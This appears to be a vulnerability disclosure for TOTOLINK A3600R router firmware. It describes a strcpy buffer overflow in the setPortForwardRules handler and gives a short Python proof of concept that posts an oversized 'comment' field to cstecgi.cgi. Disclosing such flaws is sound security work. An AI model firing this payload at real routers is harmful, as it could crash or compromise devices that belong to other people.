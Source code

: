 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setPortForwardRules` function. The `v13` variable receives the `comment` parameter from a POST request. However, since the user can control the input of `comment`, the `strcpy((char *)&v16[11], v13);` can cause a buffer overflow vulnerability.

![image-20240721012136872](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012136872.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"comment":"a"*0x1000, "topicurl":"setting/setPortForwardRules"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721012411380](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012411380.png)
